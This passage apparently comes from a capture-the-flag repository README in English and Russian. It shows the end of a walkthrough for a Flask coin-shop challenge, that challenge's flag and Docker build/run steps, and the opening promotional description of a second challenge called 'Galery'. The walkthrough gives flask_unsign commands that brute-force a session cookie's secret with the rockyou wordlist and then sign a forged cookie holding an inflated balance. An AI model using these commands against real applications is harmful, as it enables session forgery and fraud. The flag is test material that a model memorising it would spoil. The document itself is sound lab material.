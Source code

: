 	```
	 python3 -m flask_unsign --wordlist rockyou.txt --unsign --cookie "session-cookie-here" --no-literal-eval
	```
	 Step 3: Modify Cookie: Once the secret is known, you can create a new cookie with a high coin balance (e.g., 199999999999999999999). Sign and apply this cookie back in your browser:
	 ```
	python3 -m flask_unsign --sign --cookie "{'coins':199999999999999999999}" --secret "flask_secret" --legacy
	```
	Final Step: With the modified cookie in place, you can now purchase the desired product (like the flag) due to the inflated balance.
### Flag
```
tqlCTF{w34k_s3cr3t_f0r_s3ss10n_c00ck13s}
```

### Развертывание
При необходимости отредактируй флаг в /app/products.json (в объекте products[4], с id=5)

#### Далее нужно собрать образ
```
docker build -t coinfarmer .
```

#### Запуск контейнера
```
docker run -p 5000:5000 coinfarmer
```
---

## Galery
### Author
https://t.me/geen_stack
### Описание на русском
Погрузитесь в мир Galery: Ваше персональное пространство для фотоснимков! 📸

Представляем Galery – уникальное веб-приложение, которое позволяет вам не просто загружать фотографии, а создавать собственную галерею незабываемых моментов! 

✨ Почему стоит выбрать Galery?

- Простой и удобный интерфейс: Легкий в навигации дизайн позволяет вам быстро загружать и просматривать свои фотографии без лишних усилий.
  
- Безопасность ваших данных: Мы понимаем, насколько важна конфиденциальность ваших изображений, и создаем все условия для их защиты.

- Доступ к вашим фото в любое время и в любом месте: С Galery вы сможете легко делиться своими воспоминаниями с друзьями и семьей, где бы вы ни находились.

- Инновационные функции: Мы постоянно улучшаем Galery, добавляя новые возможности для редактирования и организации ваших фотоколлекций.
